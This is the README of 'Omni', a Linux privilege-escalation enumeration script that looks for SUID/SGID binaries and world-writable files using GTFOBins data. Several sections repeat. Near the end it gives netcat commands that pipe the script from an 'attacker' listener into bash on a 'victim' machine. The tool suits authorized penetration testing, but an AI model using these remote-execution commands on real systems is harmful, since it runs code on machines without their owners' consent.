 ```yaml
---

# 🔍 Omni - Privilege Escalation Scanner

A powerful Linux enumeration & privilege escalation scanner that detects exploitable SUID/SGID binaries, world-writable files, and more — all while supporting **offline GTFOBins lookup**.

---
```


## ✅ Features

* ✅ **Offline GTFOBins support** – Uses a local JSON file if no internet is available
* ✅ **SUID & SGID scanning** – Finds potentially exploitable binaries
* ✅ **Writable files/dirs** – Lists world-writable files and directories
* 🎯 **Lightweight, fast, and easy to run**

---

## 📁 Required Files

This tool requires the **GTFOBins JSON database** to check binaries against known privilege escalation vectors.

---

## 🔽 Download Required File

Before running the script, make sure to download the GTFOBins JSON file for offline use:

```bash
curl -s https://gtfobins.github.io/gtfobins.json -o gtfobins-offline.json
```

This creates the `gtfobins-offline.json` file needed for offline scanning.

---

## 🚀 Usage

Make the script executable:
---

# 🔍 Omni - Privilege Escalation Scanner

A powerful Linux enumeration & privilege escalation scanner that detects exploitable SUID/SGID binaries, world-writable files, and more — all while supporting **offline GTFOBins lookup**.

---

## ✅ Features

* ✅ **Offline GTFOBins support** – Uses a local JSON file if no internet is available
* ✅ **SUID & SGID scanning** – Finds potentially exploitable binaries
* ✅ **Writable files/dirs** – Lists world-writable files and directories
* 🎯 **Lightweight, fast, and easy to run**

---

## 📦 Requirements

* `jq` – for JSON parsing
* `findutils`, `bash`, `chmod`
* Optional: `curl` (for online GTFOBins updates)

Install dependencies:

```bash
sudo apt install jq findutils curl -y
```

---

## 📁 Required Files

This tool requires the **GTFOBins JSON database** to check binaries against known privilege escalation vectors.

---

## 🔽 Download Required File

Before running the script, make sure to download the GTFOBins JSON file for offline use:

```bash
curl -s https://gtfobins.github.io/gtfobins.json -o gtfobins-offline.json
```

This creates the `gtfobins-offline.json` file needed for offline scanning.

---

## 🚀 Usage

Make the script executable:

```bash
chmod +x Omni
```

Run it (preferably as root):

```bash
./Omni
```

Or with `sudo`:

```bash
sudo ./Omni
```

---

```bash
chmod +x Omni
```

Run it (preferably as root):

```bash
./Omni
```

Or with `sudo`:

```bash
sudo ./Omni
```

---

🧪 Remote Execution (Optional)
You can also pipe the script via netcat to remotely execute it on a compromised/victim machine.

📡 Example
On your attacker machine (listener):

```bash
nc -lvnp 4444 < Omni
```

On the victim machine (execution):

```bash
nc [attacker-ip] 4444 | bash
```

⚠️ Note: Ensure the required dependencies (bash, findutils) are installed on the victim machine.

---

🧠 Disclaimer
This tool is intended for educational purposes and authorized testing only. Unauthorized use is strictly prohibited.



